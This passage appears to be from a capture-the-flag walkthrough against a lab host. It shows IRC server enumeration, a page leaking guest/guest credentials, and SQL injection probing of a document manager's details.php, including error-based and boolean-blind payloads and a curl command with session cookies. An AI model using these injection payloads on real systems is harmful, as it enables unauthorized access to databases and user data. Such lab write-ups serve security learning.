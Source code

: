 >:irc.example.net 259 test :irc@irc.example.com  
>list  
>:irc.example.net 322 test &SERVER 0 :Server Messages  
>:irc.example.net 323 test :End of LIST  
>lusers  
>:irc.example.net 251 test :There are 1 users and 0 services on 1 servers  
>:irc.example.net 254 test 1 :channels formed  
>:irc.example.net 255 test :I have 1 users, 0 services and 0 servers  
>:irc.example.net 265 test 1 1 :Current local users: 1, Max: 1  
>:irc.example.net 266 test 1 1 :Current global users: 1, Max: 1  
>:irc.example.net 250 test :Highest connection count: 2 (6 connections received)  
>quit  

### HTTP

view-source:http://192.168.1.76/jabc/?q=node/7
><div class="field field-name-body field-type-text-with-summary field-label-hidden"><div class="field-items"><div class="field-item even" property="content:encoded"><p><span style="color:#000000">Dear customer,</span></p>  
><p><span style="color:#000000">For security reasons, this section is hidden.</span></p>  
><p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at **/jabcd0cs/** on the server. Just login with **guest/guest**</span></p>  
><p><span style="color:#000000">Thank you.</span></p>  
><p> </p>  

### SQLi

http://192.168.1.76/jabcd0cs/details.php?id=1%27&state=2
>Error in querying: SELECT * FROM odm_user_perms WHERE odm_user_perms.uid = 2 AND odm_user_perms.fid = 1\' AND odm_user_perms.rights>=1You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' AND odm_user_perms.rights>=1' at line 1  


http://192.168.1.76/jabcd0cs/details.php?id=1%20and%20(select%20length(odm_user)%20from%20odm_user_perms%20where%20odm_user=%22guest%22)=6&state=2
>Error in querying: SELECT * FROM odm_user_perms WHERE odm_user_perms.uid = 2 AND odm_user_perms.fid = 1 and (select length(odm AND odm_user_perms.rights>=1You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1  

**Char "_" is banned T.T'**

kali@kali:~$ curl -s 'http://192.168.1.76/jabcd0cs/details.php?id=1%20and%201=1&state=2' -H 'Host: 192.168.1.76' -H 'Cookie: SpryMedia_DataTables_filetable_out.php=%7B%22iCreate%22%3A1521279979936%2C%22iStart%22%3A0%2C%22iEnd%22%3A10%2C%22iLength%22%3A10%2C%22sFilter%22%3A%22%22%2C%22sFilterEsc%22%3Atrue%2C%22aaSorting%22%3A%5B%20%5B0%2C%22asc%22%5D%5D%2C%22aaSearchCols%22%3A%5B%20%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%5D%2C%22abVisCols%22%3A%5B%20true%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%5D%7D; SpryMedia_Da taTables_filetable_search.php=%7B%22iCreate%22%3A1521280061413%2C%22iStart%22%3A0%2C%22iEnd%22%3A1%2C%22iLength%22%3A10%2C%22sFilter%22%3A%22%22%2C%22sFilterEsc%22%3Atrue%2C%22aaSorting%22%3A%5B%20%5B0%2C%22asc%22%5D%5D%2C%22aaSearchCols%22%3A%5B%20%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%2C%5B%22%22%2Ctrue%5D%5D%2C%22abVisCols%22%3A%5B%20true%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%2Ctrue%5D%7D; has_js=1; PHPSESSID=s7p59g7pp1hhj1mo39da7ordl7' | grep -c "images/file_unlocked.png"  
>1  
